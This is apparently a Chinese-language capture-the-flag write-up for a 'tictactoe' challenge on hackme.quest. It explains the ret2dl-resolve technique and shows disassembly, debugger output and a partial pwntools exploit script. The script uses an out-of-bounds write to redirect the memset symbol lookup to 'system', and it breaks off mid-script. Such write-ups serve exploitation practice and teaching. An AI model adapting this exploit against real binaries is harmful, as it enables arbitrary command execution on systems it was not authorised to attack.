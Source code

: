 write up：

##### ##ret2dl-resolve

```
程序分为静态链接跟动态链接，因为好多库函数在程序中并不一定都用到，所以在处理动态链接程序的时候，elf文件会采取一种叫做延迟绑定（lazy binding）的技术，也就是当我们位于动态链接库的函数被调用的时候，编译器才会真正确定这个函数在进程中的位置,
```

```
在 Linux 中，程序使用 _dl_runtime_resolve(link_map_obj, reloc_offset) 来对动态链接的函数进行重定位。
```

`ret2dl-resolve`利用，把`system`函数的地址写到`memset`函数对应的`got`表中：

```assembly
0804AF54    Elf32_Dyn <5, <80482F8h>> ; DT_STRTAB
08048298    Elf32_Sym <offset aMemset - offset byte_80482F8, 0, 0, 12h, 0, 0> ; "memset"
0804833C    aMemset         db 'memset',0
```

```c
memset 对应的 `Elf32_Sym` 指针 < 44h, 0, 0, 12h, 0, 0>
.dynstr = DT_STRTAB->Elf32_Addr = 0x80482F8
sym->st_name = 0x44
.dynstr + sym->st_name = 0x804833C  aMemset
```

```c
pwndbg> search system
Searching for value: 'system'
tictactoe       0x804900c jae 8049087h /* 'system' */
tictactoe       0x804a00c 'system'
```

修改`DT_STRTAB->Elf32_Addr`值即可。

```c
0x804a00c - 0x44 = 0x8049fc8
```

```python
import struct
from pwn import *

#context.log_level="debug"
#p=process("./tictactoe")
p=remote("ctf.hackme.quest",7714)

move_addr=0x804B056
init_addr=0x804B048
def tict_init():
    p.recvuntil(b"Play (1)st or (2)nd? ")
    p.sendline(b"1")

    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(b"\x00")
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(init_addr-move_addr).encode())
def tict_change(addr,value):
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(value)
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(addr-move_addr).encode())

tict_init()
change_bytes1=b"sh\x00"

```